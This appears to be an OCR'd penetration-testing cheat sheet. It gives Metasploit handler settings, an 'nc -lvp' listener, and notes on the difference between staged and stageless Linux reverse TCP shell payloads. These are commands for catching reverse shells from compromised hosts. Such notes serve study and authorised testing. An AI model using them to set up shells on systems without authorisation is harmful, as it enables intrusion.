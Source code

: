 ```bash
> set lhost 0.0.0.0
> set lport 443
> run # wait for session

# => Listener Stageless
> nc -lvp 4343
# or listen to in MSF with exact payload and the exploit/multi/handler


# Difference between:
#  linux/x64/shell/reverse_tcp
#  linux/x64/shell_reverse_tcp
#
# Staged: it's smaller. Not enough to create a shell itself. You require to use a msf listener.
# Stageless: it's bigger. It doesn't need anything aditional, just nc in your computer as a listener.
#
```

